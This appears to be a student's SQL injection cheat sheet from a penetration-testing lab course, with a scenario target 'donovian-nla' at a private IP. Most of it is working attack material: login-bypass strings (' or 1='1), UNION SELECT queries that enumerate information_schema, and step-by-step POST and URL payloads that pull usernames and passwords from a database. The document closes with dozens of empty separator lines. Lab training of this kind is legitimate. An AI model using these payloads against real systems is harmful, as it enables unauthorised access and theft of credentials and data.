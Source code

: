     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: Post Method
### 1-Identify Vulnerable Field.
#### The one that doesn't error out.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Identify number of columns.
#### So you can find which fields need placeholders.
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    
### 3-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #

### 4-Craft the queries.
#### Pulling custom user created data from the database.
    Audi ' UNION SELECT tireid,2,name,size,cost FROM session.Tires #
    Audi ' UNION SELECT cost,2,size,name,5 FROM session.Tires #
_________________________________________________________________________________________________________________
## SQL Injection: Get Method (URL bar)
### 1-Identify Vulnerable Field.
#### Make selection, pass a true statement. OR 1=1
    10.50.33.78/uniondemo.php?Selection=1 OR 1=1
    10.50.33.78/uniondemo.php?Selection=2 OR 1=1
    10.50.33.78/uniondemo.php?Selection=3 OR 1=1
    10.50.33.78/uniondemo.php?Selection=4 OR 1=1
    10.50.33.78/uniondemo.php?Selection=5 OR 1=1

### 2-Identify number of columns.
#### Display table is out of order. 1,3,2
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT 1,2,3

### 3-Golden Statement from before.
#### Alter the options in the middle to match the table thats out of order.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
    
### 4-Modify the Goldent Statement.
#### Now able to alter options to pull back specific data.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT id,pass,name FROM session.user
_________________________________________________________________________________________________________________
## Scheme of Maneuver:
### >Jump Box
### ->T1:10.100.28.48

## Target Section:

### T1
#### Hostname: donovian-nla
#### IP: 10.100.28.48
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### Last Known HTTP Port: 80
#### PSP: Unknown
#### Malware: Unknown
#### Action: Conduct approved SQLi Exploitation techniques to collect intelligence.

_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
